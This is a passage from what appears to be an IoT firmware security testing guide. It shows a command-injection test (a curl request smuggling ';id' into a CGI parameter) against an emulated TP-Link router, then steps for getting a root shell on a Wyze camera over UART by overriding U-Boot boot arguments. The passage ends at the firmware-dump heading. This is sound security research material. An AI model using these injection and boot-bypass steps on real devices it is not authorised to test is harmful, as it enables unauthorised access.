 **Step 4: Test exploit**

```bash
# Emulate firmware (Firmadyne or QEMU)
# Access web interface: http://192.168.0.1/
# Test command injection:
curl "http://192.168.0.1/cgi-bin/admin.cgi?cmd=;id"
```

**Step 5: Report vulnerability**

```bash
# Responsible disclosure to TP-Link
# CVE request
```

### Workflow 2: IoT Camera Firmware Extraction

**Scenario:** Extract firmware from Wyze camera via UART.

**Step 1: Open device, identify UART**

```bash
# Locate 4-pin header (TX, RX, GND, VCC)
# Use multimeter to identify GND (continuity to USB shield)
```

**Step 2: Connect UART adapter**

```bash
# Device TX -> Adapter RX
# Device RX -> Adapter TX
# Device GND -> Adapter GND
```

**Step 3: Determine baud rate**

```bash
# Try 115200 baud:
screen /dev/ttyUSB0 115200

# Press Enter, look for readable output
# If garbage, try other baud rates
```

**Step 4: Access shell**

```bash
# Power on device, interrupt boot:
# Press Ctrl+C during U-Boot countdown

# Modify boot parameters:
setenv bootargs "init=/bin/sh"
boot

# Now have root shell
```

**Step 5: Dump firmware**
